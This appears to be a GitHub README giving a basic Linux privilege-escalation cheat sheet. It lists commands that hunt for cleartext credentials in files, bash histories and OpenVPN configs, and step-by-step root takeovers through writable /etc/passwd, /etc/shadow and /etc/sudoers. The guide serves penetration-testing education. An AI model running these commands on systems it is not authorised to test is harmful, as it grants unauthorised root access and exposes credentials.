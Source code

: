 # Linux-Privilege-Escalation-Basics
Simple and accurate guide for linux privilege escalation tactics 

# Privilege Escalation Methods

- Basic System Enumeration
- Bash History
- OpenVPN Credentials
- Writable Password Files / Sudoers
- SSH Private Keys 
- Kernel Expliots
- Sudo -l 
- Sudo CVE 


# Basic System Enumeration

```
uname -a | What OS kernel are we using?
hostname | What is my hostname?
lscpu | What is our CPU architecture?
ls /home | Any Users? Can we access their home directories?
ls /var/www/html | Any web config files? Do they contain DB or user credentials?
ps aux | grep root | What services are running as root? Any cron jobs running specific files as root? Can we write to those files? 
netstat -tulpn | What is running? Are they bound to local host but not from the public? Possible port forwarding
ifconfig | What is our IP? Are we dual-homed?
find . -type f -exec grep -i -I "PASSWORD=" {} /dev/null \; | Any files that contains clear-text credentials?
locate pass | more | Any files with the name pass?

```
# Bash History

```
history | Any clear-text credentials? Any command for logging into services with the credentials?
cat /home/<user>/.bash_history | Can we see CLI history of other users?

```

# OpenVPN Credentials

```
locate *.ovpn | Any OpenVPN files with clear-text credentials?

```

# Writable Password Files

```
ls -la /etc/passwd | Do we have write access to passwd?
If write access is enabled on /etc/passwd | Add new user with UID & GID of 0 (Root) OR Remove the root password

   echo 'hacker::0:0::/root:/bin/bash' >> /etc/passwd
   su - hacker
   id && whoami
   
OR
   
  vi /etc/passwd
  Remote X (Password Holder) for root
  wg!
  su root
  id && whoami
  
ls -la /etc/shadow | Do we have write access to shadow?
If write access is enabled on /etc/shadow | Generate new password hash and replace root's password

   Run python -c "import crypt; print crypt.crypt('NewRootPassword')"
   Copy the output
   vi /etc/shadow
   Replace root's hash with the output that you generated
   wq!
   su root | Provide the new root password you generated (Example: NewRootPassword)
   id && whoami
  
ls -la /etc/sudoers | Do we have write access to /etc/sudoers?
If write access is enabled on /etc/sudoers | Add new sudo entry

   echo "username ALL=(ALL:ALL) ALL" >> /etc/sudoers | Replace "Username" with your current user (Example: www-data)
   sudo su
   id && whoami

   ```

